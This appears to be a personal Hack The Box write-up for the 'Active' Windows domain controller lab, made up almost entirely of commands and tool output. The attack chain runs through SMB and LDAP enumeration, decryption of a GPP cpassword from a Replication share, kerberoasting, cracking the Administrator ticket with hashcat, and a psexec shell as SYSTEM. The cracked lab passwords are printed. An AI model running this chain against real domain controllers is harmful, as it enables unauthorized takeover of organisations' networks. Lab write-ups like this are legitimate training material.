







# Active writeup
```bash
# Nmap 7.91 scan initiated Tue Jan 12 11:00:13 2021 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.097s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-12 10:02:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-12T10:03:45
|_  start_date: 2021-01-12T09:58:52

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 12 11:01:32 2021 -- 1 IP address (1 host up) scanned in 78.79 seconds


kali@kali:~/htb/boxes/active/10.10.10.100$ smbmap -H 10.10.10.100
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS


dnsrecon -d 10.10.10.100 -t axfr
[*] Testing NS Servers for Zone Transfer
[*] Checking for Zone Transfer for 10.10.10.100 name servers
[*] Resolving SOA Record
['SOA', 'a.root-servers.net', '198.41.0.4']
[+]      SOA a.root-servers.net 198.41.0.4
[*] Resolving NS Records
[-] Could not Resolve NS Records: None of DNS query names exist: 10.10.10.100., 10.10.10.100.localdomain.
[*] Removing any duplicate NS server IP Addresses...
[*]  
[*] Trying NS server 198.41.0.4
[+] [] Has port 53 TCP Open
[-] Zone Transfer Failed!
[-] Zone transfer error: REFUSED
Traceback (most recent call last):
  File "/usr/share/dnsrecon/lib/dnshelper.py", line 431, in zone_transfer
    zone = self.from_wire(dns.query.xfr(ns_srv, self._domain))
  File "/usr/share/dnsrecon/lib/dnshelper.py", line 359, in from_wire
    for r in xfr:
  File "/usr/lib/python3/dist-packages/dns/query.py", line 964, in xfr
    raise TransferError(rcode)
dns.query.TransferError: Zone transfer error: REFUSED
```


Domain: active.htb

sudo bash -c 'echo "10.10.10.100 active.htb" >> /etc/hosts'


Windows Server 2008 R2 SP1






nmap --script smb* -p445,135 10.10.10.100


https://book.hacktricks.xyz/pentesting/pentesting-ldap

```python
import ldap3

ip = "10.10.10.100"

server = ldap3.Server(ip, get_info = ldap3.ALL, port =389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()
print(server.info)
```


DSA info (from DSE):
  Supported LDAP versions: 3, 2
  Naming contexts: 
    DC=active,DC=htb
    CN=Configuration,DC=active,DC=htb
    CN=Schema,CN=Configuration,DC=active,DC=htb
    DC=DomainDnsZones,DC=active,DC=htb
    DC=ForestDnsZones,DC=active,DC=htb
  Supported controls: 
    1.2.840.113556.1.4.1338 - Verify name - Control - MICROSOFT
    1.2.840.113556.1.4.1339 - Domain scope - Control - MICROSOFT
    1.2.840.113556.1.4.1340 - Search options - Control - MICROSOFT
    1.2.840.113556.1.4.1341 - RODC DCPROMO - Control - MICROSOFT
    1.2.840.113556.1.4.1413 - Permissive modify - Control - MICROSOFT
    1.2.840.113556.1.4.1504 - Attribute scoped query - Control - MICROSOFT
    1.2.840.113556.1.4.1852 - User quota - Control - MICROSOFT
    1.2.840.113556.1.4.1907 - Server shutdown notify - Control - MICROSOFT
    1.2.840.113556.1.4.1948 - Range retrieval no error - Control - MICROSOFT
    1.2.840.113556.1.4.1974 - Server force update - Control - MICROSOFT
    1.2.840.113556.1.4.2026 - Input DN - Control - MICROSOFT
    1.2.840.113556.1.4.2064 - Show recycled - Control - MICROSOFT
    1.2.840.113556.1.4.2065 - Show deactivated link - Control - MICROSOFT
    1.2.840.113556.1.4.2066 - Policy hints [DEPRECATED] - Control - MICROSOFT
    1.2.840.113556.1.4.319 - LDAP Simple Paged Results - Control - RFC2696
    1.2.840.113556.1.4.417 - LDAP server show deleted objects - Control - MICROSOFT
    1.2.840.113556.1.4.473 - Sort Request - Control - RFC2891
    1.2.840.113556.1.4.474 - Sort Response - Control - RFC2891
    1.2.840.113556.1.4.521 - Cross-domain move - Control - MICROSOFT
    1.2.840.113556.1.4.528 - Server search notification - Control - MICROSOFT
    1.2.840.113556.1.4.529 - Extended DN - Control - MICROSOFT
    1.2.840.113556.1.4.619 - Lazy commit - Control - MICROSOFT
    1.2.840.113556.1.4.801 - Security descriptor flags - Control - MICROSOFT
    1.2.840.113556.1.4.802 - Range option - Control - MICROSOFT
    1.2.840.113556.1.4.805 - Tree delete - Control - MICROSOFT
    1.2.840.113556.1.4.841 - Directory synchronization - Control - MICROSOFT
    1.2.840.113556.1.4.970 - Get stats - Control - MICROSOFT
    2.16.840.1.113730.3.4.10 - Virtual List View Response - Control - IETF
    2.16.840.1.113730.3.4.9 - Virtual List View Request - Control - IETF
  Supported extensions: 
    1.2.840.113556.1.4.1781 - Fast concurrent bind - Extension - MICROSOFT
    1.3.6.1.4.1.1466.101.119.1 - Dynamic Refresh - Extension - RFC2589
    1.3.6.1.4.1.1466.20037 - StartTLS - Extension - RFC4511-RFC4513
    1.3.6.1.4.1.4203.1.11.3 - Who am I - Extension - RFC4532
  Supported features: 
    1.2.840.113556.1.4.1670 - Active directory V51 - Feature - MICROSOFT
    1.2.840.113556.1.4.1791 - Active directory LDAP Integration - Feature - MICROSOFT
    1.2.840.113556.1.4.1935 - Active directory V60 - Feature - MICROSOFT
    1.2.840.113556.1.4.2080 - Active directory V61 R2 - Feature - MICROSOFT
    1.2.840.113556.1.4.800 - Active directory - Feature - MICROSOFT
  Supported SASL mechanisms: 
    GSSAPI, GSS-SPNEGO, EXTERNAL, DIGEST-MD5
  Schema entry: 
    CN=Aggregate,CN=Schema,CN=Configuration,DC=active,DC=htb
Other:
  currentTime: 
    20210112104700.0Z
  dsServiceName: 
    CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
  defaultNamingContext: 
    DC=active,DC=htb
  schemaNamingContext: 
    CN=Schema,CN=Configuration,DC=active,DC=htb
  configurationNamingContext: 
    CN=Configuration,DC=active,DC=htb
  rootDomainNamingContext: 
    DC=active,DC=htb
  supportedLDAPPolicies: 
    MaxPoolThreads
    MaxDatagramRecv
    MaxReceiveBuffer
    InitRecvTimeout
    MaxConnections
    MaxConnIdleTime
    MaxPageSize
    MaxQueryDuration
    MaxTempTableSize
    MaxResultSetSize
    MinResultSets
    MaxResultSetsPerConn
    MaxNotificationPerConn
    MaxValRange
    ThreadMemoryLimit
    SystemMemoryLimitPercent
  highestCommittedUSN: 
    90153
  dnsHostName: 
    DC.active.htb
  ldapServiceName: 
    active.htb:dc$@ACTIVE.HTB
  serverName: 
    CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=active,DC=htb
  isSynchronized: 

  nmap -n -sV --script "ldap* and not brute" active.htb

  If LDAP is used without SSL you can sniff credentials in plain text in the network.


```py
contexts = """
DC=active,DC=htb
CN=Configuration,DC=active,DC=htb
CN=Schema,CN=Configuration,DC=active,DC=htb
DC=DomainDnsZones,DC=active,DC=htb
DC=ForestDnsZones,DC=active,DC=htb
""".splitlines()

for context in contexts:
    print(f"context {context}")
    print(connection.search(search_base=context, search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*'))
    print(connection.entries)
    print(connection.extend.standard.who_am_i())
```

hydra -L top-usernames-shortlist.txt -P xato-net-10-million-passwords-1000.txt smb2://10.10.10.100









kali@kali:~/htb/boxes/active/10.10.10.100$ smbclient '\\10.10.10.100\Replication\'
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *

```
kali@kali:~/htb/boxes/active/10.10.10.100$ tree active.htb/
active.htb/
├── DfsrPrivate
│   ├── ConflictAndDeleted
│   ├── Deleted
│   └── Installing
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── Group Policy
│   │   │   └── GPE.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Preferences
│   │   │   │   └── Groups
│   │   │   │       └── Groups.xml
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts

21 directories, 7 files
```


https://pentestlab.blog/tag/cpassword/

https://github.com/leonteale/pentestpackage/blob/master/Gpprefdecrypt.py

kali@kali:~/htb/boxes/active/10.10.10.100$ python Gpprefdecrypt.py "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

GPPstillStandingStrong2k18


kali@kali:~/htb/boxes/active/10.10.10.100$ crackmapexec smb -u top-usernames-shortlist.txt -p password.txt --shares 10.10.10.100
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [-] active.htb\admin:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\test:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\guest:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\info:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\adm:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\mysql:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\user:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\administrator:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\oracle:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\ftp:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\pi:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\puppet:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\ansible:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\ec2-user:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\vagrant:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 
SMB         10.10.10.100    445    DC               [-] active.htb\azureuser:GPPstillStandingStrong2k18 STATUS_LOGON_FAILURE 


userName="active.htb\SVC_TGS"

https://www.tarlogic.com/en/blog/how-to-attack-kerberos/


kali@kali:~/htb/boxes/active/10.10.10.100$ python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -outputfile hashes.kerberoast
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2018-07-30 19:17:40.656520             


[-] Principal: active.htb\Administrator - NT_MS_PRINCIPAL


kali@kali:~/htb/boxes/active/10.10.10.100$ cat hashes.kerberoast 
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$a5452a44406a308b7e858536d1c35212$b538cf5243dc7bf2aa3532f44a0cc936eb572bbfdd18045be31bfa0ec7a70d38050b6254d3f9ac91b4afa77dd6fcef823fee4a05431710bcf2a7375287d7784c50b79935dd605cc27d5cf1ea580c040398c6a8ab680ba54341725b03d6565bf2f4970bbc64a682c555b5d101eb39b27f5bde24f3adfcb4401f42162af6faafad633548f27cbf09b381a6b46b5fa8ac3ca7e0dd6d2e8a8e6f32e731a60315cc6cefca37e2ce3da96ead13265a22d52d7bdfee74a076b4ae0445d2e9dba19816838782704ab10ad643d4a914caa04fab87adf17ad101dcdaf69fde7afdb768f757cd6227023d9bd3da602ac8c0972dde3c81e2ffa0503a1082f776c182114de42f30d82b0a0fa33e627c52e4bc0d7d1479d0fc94ee0b057ddb2c4450c1dce387e9e56e57447ec48c35a6c033144170fbff21ead828cc578d988f3ecc5902198bdfd1be68e5be7c702361d61053d8755a6cdb72a790037215ac01d698e892232d0a78e0cc97dcac5fafe9d0ff798418f4bbc944119e3bb94cc48c6491de08bae4d69585d72a607c223d68b538c531d37b299509e6aa97cfbbc99402278f83fa09dc251b052b9e91fc32fbde1a02d116f3fe2bd24628712a09ff2df2786225d68cae7bb9ee59900ce8fbb894c771bb4dbb70f4909523b82cebd834e2a996a878eac43d66909edc88d6f2707b2f941cbb085766540e00a6fe5e57ca157b29692b47150893d4362f56a693f456343b2a61c4ff3375f4d78c2ab41f576f9ce46ccd96c51fdf8de105a69f11dd60fa6646a688f1e0adf49b61b5dc745d2dd554436e9b45b70a9781bad92775b4dfeda1099b73c0d7f1b2395c5358888571a35412a83a733148349748c6884b627a9d7eb7281586cbd2e8b4a1e0f2be8199cdedc7ffdcfb10c00c34ae57056189ccda86aa91d4a1f633306a3f1743ccfa85815261c4ac9fe1245087525b56e42c1f7635b496ba8cb7cc08fffc902e44a3c5551973a50ab7bbd429fdb18e258621b50b30df92d77eab7cacbb4d9f24669ba291b3423de4275326b85ed7f3339644e2f21e412885b573131b4f3b954305950aa51762cb4b297e45b8f2900ba958099011d211b1104743da60f4a601d7dc825370e419f8f98cdc6bfdca1893b32731d425f7125f75b09d1e1d377d25e606fcd76d8e883709f16261738efe3acc85c6701216c8d9e9a0a7174da7a1e05ba94939c4d1d775687569efd947944da618a5b721fa0f3143c03d457d69968c7bcc2a31


7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
  13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
  18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
  19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
  19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
  19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
  19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols


  https://www.scip.ch/en/?labs.20181011

  hashcat -m 13100

C:\tmp\hashcat-6.1.1>hashcat -m 13100 active.kerberoast rockyou.txt --show                                                                                 $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$a5452a44406a308b7e858536d1c35212$b538cf5243dc7bf2aa3532f44a0cc936eb572bbfdd18045be31bfa0ec7a70d38050b6254d3f9ac91b4afa77dd6fcef823fee4a05431710bcf2a7375287d7784c50b79935dd605cc27d5cf1ea580c040398c6a8ab680ba54341725b03d6565bf2f4970bbc64a682c555b5d101eb39b27f5bde24f3adfcb4401f42162af6faafad633548f27cbf09b381a6b46b5fa8ac3ca7e0dd6d2e8a8e6f32e731a60315cc6cefca37e2ce3da96ead13265a22d52d7bdfee74a076b4ae0445d2e9dba19816838782704ab10ad643d4a914caa04fab87adf17ad101dcdaf69fde7afdb768f757cd6227023d9bd3da602ac8c0972dde3c81e2ffa0503a1082f776c182114de42f30d82b0a0fa33e627c52e4bc0d7d1479d0fc94ee0b057ddb2c4450c1dce387e9e56e57447ec48c35a6c033144170fbff21ead828cc578d988f3ecc5902198bdfd1be68e5be7c702361d61053d8755a6cdb72a790037215ac01d698e892232d0a78e0cc97dcac5fafe9d0ff798418f4bbc944119e3bb94cc48c6491de08bae4d69585d72a607c223d68b538c531d37b299509e6aa97cfbbc99402278f83fa09dc251b052b9e91fc32fbde1a02d116f3fe2bd24628712a09ff2df2786225d68cae7bb9ee59900ce8fbb894c771bb4dbb70f4909523b82cebd834e2a996a878eac43d66909edc88d6f2707b2f941cbb085766540e00a6fe5e57ca157b29692b47150893d4362f56a693f456343b2a61c4ff3375f4d78c2ab41f576f9ce46ccd96c51fdf8de105a69f11dd60fa6646a688f1e0adf49b61b5dc745d2dd554436e9b45b70a9781bad92775b4dfeda1099b73c0d7f1b2395c5358888571a35412a83a733148349748c6884b627a9d7eb7281586cbd2e8b4a1e0f2be8199cdedc7ffdcfb10c00c34ae57056189ccda86aa91d4a1f633306a3f1743ccfa85815261c4ac9fe1245087525b56e42c1f7635b496ba8cb7cc08fffc902e44a3c5551973a50ab7bbd429fdb18e258621b50b30df92d77eab7cacbb4d9f24669ba291b3423de4275326b85ed7f3339644e2f21e412885b573131b4f3b954305950aa51762cb4b297e45b8f2900ba958099011d211b1104743da60f4a601d7dc825370e419f8f98cdc6bfdca1893b32731d425f7125f75b09d1e1d377d25e606fcd76d8e883709f16261738efe3acc85c6701216c8d9e9a0a7174da7a1e05ba94939c4d1d775687569efd947944da618a5b721fa0f3143c03d457d69968c7bcc2a31:Ticketmaster1968


Ticketmaster1968



```sh
kali@kali:~/htb/boxes/active/10.10.10.100$ psexec.py Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file jTeDMjJf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service jsie on 10.10.10.100.....
[*] Starting service jsie.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```